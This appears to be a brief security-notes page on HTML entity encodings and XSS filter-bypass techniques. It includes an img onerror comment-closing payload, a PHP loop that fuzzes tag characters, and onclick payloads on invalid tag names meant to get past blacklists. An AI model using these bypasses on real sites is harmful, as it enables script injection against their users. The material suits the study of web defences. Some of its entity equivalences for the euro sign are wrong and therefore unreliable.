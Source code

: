 ## Html Entities

__€ character__
```
&euro;        ---       Entitiy Name
&#164;        ---       numerical entity
&#xA4         ---       hexadecimal representation
&#8364;       ---       Decimal Form
&#x20ac;      ---       hexadecimal form.
```
_Note that decimal entities are introduced by an __ampersand (&) and a hash mark (#)__, whereas hexadecimal HTML entities are introduced by __an ampersand, a hash mark, and an x__._

#### Comments
```
A<!--><img src¼"x" onerror¼"alert(1)">-->B        ---         Comments can be closed with > also
```


## Fuzzing

Let's Fuzz Using the fallowing Code
```php

<?php
for($i=0; $i <= 255; $i++) {
$character=chr($i);
# Right after the opening <
echo '<div><'.$character.'a href="http://www.google.com/">'.$i.'</a></div>';
}
?>
```

### ! and ?
Place `!` and `?` at the beginning < of tag makes the tag comment automatically.

> <!img src=x> will be treated as comment
> <?img src=x> will be treated as comment


#### Invalida Tag names

invalid tag names can be used for XSS filter bypass if blacklists are used

```html
<Lm onclick=alert(1)>click me</Lm>
<xx onclick=alert(0)>ClickMe</xx>
```


